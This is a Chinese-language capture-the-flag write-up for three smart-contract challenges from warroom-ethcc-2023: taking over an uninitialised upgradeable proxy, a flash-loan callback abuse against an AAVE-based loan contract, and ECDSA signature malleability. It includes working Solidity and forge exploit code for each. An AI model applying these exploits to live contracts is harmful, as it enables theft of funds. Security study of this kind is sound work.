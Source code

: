 # Writeup

refer to [Repo](https://github.com/Snooowgh/warroom-ethcc-2023)

## 1. Proxy

题目要求其他人无法接管合约的implementation
Proxy合约未被初始化, 任何人可以获取owner权限
步骤如下:

- 调用initialize函数成为owner
- 调用whitelistUser函数加入到白名单中
- 调用withdraw函数提取 2 wei ETH
- 调用upgradeTo函数升级合约到自定义的空合约(UUPSUpgradeable合约函数)

```solidity
address(proxy).call{value: 0.1 ether}(
    abi.encodeWithSignature("initialize(address)", address(0))
);
address(proxy).call(
abi.encodeWithSignature("whitelistUser(address)", attacker)
);
address(proxy).call(
abi.encodeWithSignature("withdraw(uint256)", 2)
);
Blank blank = new Blank();
address(proxy).call(
abi.encodeWithSignature("upgradeTo(address)", address(blank))
);

```

## 2. Flash Loan

编写攻击合约, 实现IFlashLoanSimpleReceiver的方法,
通过调用AAVE池子的flashLoan函数获取大量DAI,
然后将资金转移到loan合约中,
再触发AAVE池子的flashLoan函数, 接收合约设置为loan合约,
触发loan合约的回调, 作为initiator获取到totalLoans额度,
接着调用removeLoan函数获取所有奖励, 把奖励转给攻击地址
最后归还借款

```
// 需要用到aave测试网络的部署合约
forge test --match-contract LoanTest -vvvv --fork-url https://eth-sepolia.g.alchemy.com/v2/XXX
```

## 3. Signature malleability

claim奖励需要用户是白名单地址, 且能提供未使用的签名,
题目给出了之前的白名单用户使用过的签名
使用"数学魔法"(⚡️)用旧签名构造新的且有效的签名

数学原理:https://github.com/kadenzipfel/smart-contract-vulnerabilities/blob/master/vulnerabilities/signature-malleability.md

- 椭圆曲线X轴对称, 一个签名一定有另一个对称值
- 如果(r, s)有效, 则(r, -s mod n)也有效

```solidity
// The following is math magic to invert the signature and create a valid one
// flip s (secp256k1 curve)
bytes32 s2 = bytes32(uint256(0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141) - uint256(s));

// invert v
uint8 v2;
require(v == 27 || v == 28, "invalid v");
v2 = v == 27 ? 28 : 27;

vm.prank(user);
rewards.claim(user, whitelistedAmount, v2, r, s2);
```

案例:https://github.com/tendermint/tendermint/issues/1958
